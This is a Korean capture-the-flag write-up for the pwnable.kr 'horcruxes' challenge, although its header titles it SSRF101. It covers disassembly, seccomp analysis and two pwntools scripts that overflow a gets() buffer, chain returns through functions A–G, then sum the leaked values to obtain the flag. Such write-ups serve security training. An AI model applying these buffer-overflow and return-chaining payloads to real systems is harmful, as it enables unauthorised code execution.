# SSRF101

구분: 개인 문제<br>
난이도: Easy ~ Medium<br>
분야: Pwn<br>
상태: 작성 완료<br>
작성일: 2026년 09월 06일<br>
<br>

# 0. 문제 정보

# 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | horcruxes |
| 원본 대회 | |
| 분야 | Pwn |
| 난이도 | 초급~중급 · 약 2.5/5 |
| 접속 주소 | `https://pwnable.kr/play.php` |
| 플래그 형식 | `...` |

# 1. 문제 요약

- 생성된 난수의 값을 맞춰 접근할 수 있는 A~G 함수 존재
- ROP를 통해 각 함수를 실행하여 난수값을 얻어 플래그 획득
---
# 2. 문제 분석

checksec 확인 결과 32비트 아키텍처이고, RELRO와 NX만 적용되어있는 것을 볼 수 있다.

horcruxes 실행 결과 굉장히 불친절하다는 것을 알 수 있다.

gdb를 이용한 main 함수 disassemble 결과<br>
hint, init_ABCDEFG, seccomp_init, seccomp_rule_add, seccomp_load, ropme라는 함수가 눈에 띈다<br><br>

이때 seccomp로 시작하는 함수들은 시스템콜 접근을 제한하기 위한 것으로, seccomp_init의 반환값(`eax`)을 `ebp-0xc` 위치에 넣은 후 seccomp_rule_add와 seccomp_load를 할 때 넘겨주는 것을 볼 수 있다(`push DWORD PTR [ebp-0xc]`)<br>
추가적인 분석은 gemini를 이용해본 결과, rt_sigaction, open, openat, read, write, exit_group 시스템콜을 허용하고, 이외의 것들은 차단하도록 설정된 것이라고 한다.<br>

그럼 사용자 정의 함수인 hint, init_ABCDEFG, ropme 함수를 각각 살펴보자<br><br>

먼저 hint의 disass 결과는 다음과 같다.

두 문자열을 출력하고 있는데, 각 문자열은

프로그램 실행시 가장 처음 뜨는 두 문장을 출력하는 함수임을 알 수 있다.<br><br>

다음은 init_ABCDEFG이다.

[ebx+0x7c, 0x80, 0x84, 0x88, 0x8c, 0x90, 0x94]에 난수를 집어넣고, 이를 모두 더한 값을 [ebx+0x98]에 넣는다.<br>
아마도 각각의 값이 A B C D E F G에 해당하고, 이 값을 맞추거나 해야하지 않을까 추측된다.<br><br>

다음은 ropme이다.
 
사용자에게 값을 입력받고 앞서 만들었던 7개의 난수와 비교한다. 하나라도 맞다면 A B C D E F G중 하나의 함수를 실행하게 되는데,

임의로 A가 실행되도록 했더니 다음과 같이 출력되는 것을 볼 수 있다.<br>
하지만 이렇게 되면 이후 프로그램이 종료된다.
---
# 3. 풀이
flag를 얻기 위해서는 마지막 “How many EXP did you earned? : ”에서 7개의 난수를 더한 값을 맞춰야 하는데 그게 쉽진 않을 것 같고, 문제에서 말한 것 처럼 ROP를 해봐야할 것 같다.<br><br>

일단 마지막 입력의 경우 get()을 이용하기 때문에 bof가 가능하고, 그렇다면 ROP를 이용해 A부터 G까지의 함수를 실행시켜 각 난수를 구한 후, 다시 ropme로 돌아와 각 값을 더한 값을 입력하면 되지 않을까 싶다.<br>

get() 함수를 통해 입력받는 위치는 `[ebp-0x74]`이고, ropme 함수의 반환주소는 `[ebp+0x4]`에 위치한다.<br>

이를 이용해 간단한 ROP 코드를 짜보았다
```python
from pwn import *

e = ELF('/home/horcruxes/horcruxes')
p = process('/home/horcruxes/horcruxes')

p.sendlineafter(b'Select Menu:', b'0')

payload = b'a'*0x78
payload += p32(e.symbols['A']) # A의 주소
payload += p32(e.symbols['B']) # B의 주소
payload += p32(e.symbols['C']) # C의 주소
payload += p32(e.symbols['D']) # D의 주소
payload += p32(e.symbols['E']) # E의 주소
payload += p32(e.symbols['F']) # F의 주소
payload += p32(e.symbols['G']) # G의 주소
payload += p32(e.symbols['ropme']) # ropme로 다시 리턴

p.sendafter(b'earned? : ', payload)

p.interactive() # 상호작용 모드로 전환
```

의도대로 A부터 G까지 실행한 이후 ropme로 돌아오는 것을 확인할 수 있지만, 프로그램에 시간제한이 걸려있기 때문에 이 숫자를 손으로 일일이 더하기는 어렵다.<br>
따라서 코드를 통해 각 값을 구해 더한 후 이를 입력하도록 다음과 같이 코드를 수정한다.
```python
from pwn import *

e = ELF('/home/horcruxes/horcruxes')
# p = process('/home/horcruxes/horcruxes')
p = remote("0", 10016)

p.sendlineafter(b'Select Menu:', b'0')

payload = b'a'*0x78
payload += p32(e.symbols['A'])
payload += p32(e.symbols['B'])
payload += p32(e.symbols['C'])
payload += p32(e.symbols['D'])
payload += p32(e.symbols['E'])
payload += p32(e.symbols['F'])
payload += p32(e.symbols['G'])
payload += p32(e.symbols['ropme'])

p.sendlineafter(b'earned? : ', payload)

values = []

for i in range(7):
    p.recvuntil(b'+')
    values.append( int(p.recvuntil(b')').decode()[:-1]) )
total = sum(values)

p.sendlineafter(b'Select Menu:', b'0')
p.sendafter(b'earned? : ', str(total).encode())
p.interactive()
```
해당 코드에서 `p = remote("0", 10016)`으로  수정하여 실행하면

플래그를 얻을 수 있다.